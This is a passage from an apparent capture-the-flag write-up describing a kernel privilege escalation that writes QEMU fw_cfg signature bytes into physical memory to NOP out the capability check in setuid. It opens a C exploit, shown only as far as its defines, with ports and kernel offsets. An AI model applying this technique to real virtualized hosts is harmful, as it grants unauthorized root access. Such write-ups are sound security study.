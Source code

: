 ## Extra pwning
Happy now? Not quite. 

Turns out that we can store the string "QEMU" (or any substring) in an arbitrary physical address. This can be done by using the selector for the signature (**FW_CFG_SIGNATURE**). 

Wouldn't it be funny if we could just... pwn the challenge by using that?
Fun fact: you obviously can!

'E' is 0x45 and 'M' is 0x4d. If you disassemble these two bytes you will have:

![disassembled bytes](/images/fw_cfg/disass.png)

These two bytes are REX prefixes. If the prefix does not have an effect on the next bytes then it is treated as a NOP instruction. By looking at the source code of [__sys_setuid](https://elixir.bootlin.com/linux/v6.16.2/source/kernel/sys.c#L622) you can notice that we could successfully hijack the syscall by "NOPing" out the call to **ns_capable_setid**.

These are the instructions before patching the syscall:

![setuid before patch](/images/fw_cfg/setuid_before.png)

And this is the function call after patching **setuid**:

![setuid after patch](/images/fw_cfg/setuid_after.png)

As you can notice, the last rex.RB prefix actually changed **test al, al** to **test r8b, r8b** but it's not a problem. Using gdb you can see that r8b is not 0 at run time so the if condition is passed!

Here is the final exploit (written by **@leave**, this one uses **ptregs**):

```c
#include "helpers.h"
#include <sys/io.h>
#include <endian.h>
#include <sys/syscall.h>
#include <signal.h>

#include <asm/ldt.h>

#define WRITE_LDT 1

#define CONFIG_PHYSICAL_START   0x1000000ul
#define CONFIG_PHYSICAL_ALIGN   0x0200000ul

#define KPTR_RESTRICT           "/proc/sys/kernel/kptr_restrict"
#define KPTR_RESTRICT_OFFSET    0x1eb93a0ul

#define SETUID_CHECK            0x02b960dul

// CFG PORTS
#define FW_CFG_PORT_SEL         0x510
#define FW_CFG_PORT_DATA        0x511

#define BIOS_CFG_DMA_ADDR_HIGH  0x514
#define BIOS_CFG_DMA_ADDR_LOW   0x518

#define FW_CFG_SIGNATURE	    0x00
#define SIGNATURE               "QEMU"

#define SP0_PTREGS_PHYS_ADDR    0xf60cf58;				// depends on memory size, im running with 256M


// https://wiki.osdev.org/QEMU_fw_cfg
```